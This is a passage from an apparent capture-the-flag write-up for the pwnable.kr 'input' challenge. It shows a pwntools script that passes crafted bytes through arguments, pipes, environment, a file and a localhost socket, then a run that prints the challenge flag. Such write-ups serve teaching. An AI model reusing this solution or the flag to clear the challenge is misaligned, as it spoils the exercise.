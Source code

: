 ```c
os.write(data1,b"\x00\x0a\x00\xff")
os.write(data2,b"\x00\x0a\x02\xff")

#stage3
env={b"\xde\xad\xbe\xef":b"\xca\xfe\xba\xbe"}

#stage4
f=open("\x0a","w")
f.write("\x00\x00\x00\x00")
f.close()

#calling process
p=process(executable="input",argv=stage1,stdin=fd1,stderr=fd2,env=env)

#stage 5
msg=remote('localhost',9898)
msg.sendline(b"\xde\xad\xbe\xef")

#gain shell
p.interactive()
```

And copying this exploit in ```/tmp/{your own dir}``` directory and changing the ```ELF``` path in the exploit as,

```p=process(executable="/home/input2/input",argv=stage1,stdin=fd1,stderr=fd2,env=env)``` 

Adding symlink for that ```flag```, since flag should be in current directory

```c
    // here's your flag
	system("/bin/cat flag");
```

```c
input2@pwnable:/tmp$ mkdir monish
input2@pwnable:/tmp$ cd monish
input2@pwnable:/tmp/monish$ nano exploit.py

...

input2@pwnable:/tmp/monish$ ln -s /home/input2/flag flag
```

Lets try running the exploit,

```c
input2@pwnable:/tmp/monish$ python2 exploit.py 
[+] Starting local process '/home/input2/input': pid 349485
[+] Opening connection to localhost on port 9898: Done
[*] Switching to interactive mode
[*] Process '/home/input2/input' stopped with exit code 0 (pid 349485)
Welcome to pwnable.kr
Let's see if you know how to give input to program
Just give me correct inputs then you will get the flag :)
Stage 1 clear!
Stage 2 clear!
Stage 3 clear!
Stage 4 clear!
Stage 5 clear!
Mommy! I learned how to pass various input in Linux :)
```

Yay!! we got the flag ```Mommy! I learned how to pass various input in Linux :)```

